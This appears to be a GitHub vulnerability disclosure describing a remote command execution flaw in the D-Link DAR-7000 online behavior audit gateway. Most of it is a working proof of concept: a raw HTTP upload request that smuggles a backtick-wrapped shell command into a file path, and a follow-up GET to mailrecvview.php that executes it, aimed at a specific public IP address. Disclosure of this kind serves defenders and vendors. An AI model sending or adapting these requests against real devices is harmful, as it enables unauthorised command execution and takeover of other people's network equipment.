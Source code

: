 The D-LINK DAR-7000 series online behavior audit gateway has a RCE vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/log/mailrecvview.php

<img width="673" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/b2e0591b-ddc5-4c9b-9028-44b988a5352b">



First construct POC and upload command execution files
```
POST /Tool/uploadfile.php? HTTP/1.1
Host:
Cookie: PHPSESSID=25c62fc086a2f7777b8e0dd04d2a75d1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------886123294864872782496578758
Content-Length: 324
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------886123294864872782496578758
Content-Disposition: form-data; name="file_upload"; filename="1.txt"
Content-Type: application/octet-stream

1
-----------------------------886123294864872782496578758
Content-Disposition: form-data; name="txt_path"

/usr/hddocs/nsg/home/`sleep${IFS}10`.txt

```
<img width="680" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/e64a1c3c-42d4-457f-8307-4cc40e77cfee">



Log in to the system, access the uploaded file, and successfully execute the system command
```
GET /log/mailrecvview.php?file=/usr/hddocs/nsg/home/`sleep${IFS}10`.txt&type=%51%51%20%57%65%62%4d%61%69%6c HTTP/1.1
Host: 60.22.74.195:8443
Cookie: PHPSESSID=bdb1aa1392da0420192cff3c34e507d6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 219.142.42.9
Te: trailers
Connection: close

```
<img width="684" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/6f76fff3-1b15-4709-baf0-174f7553a261">

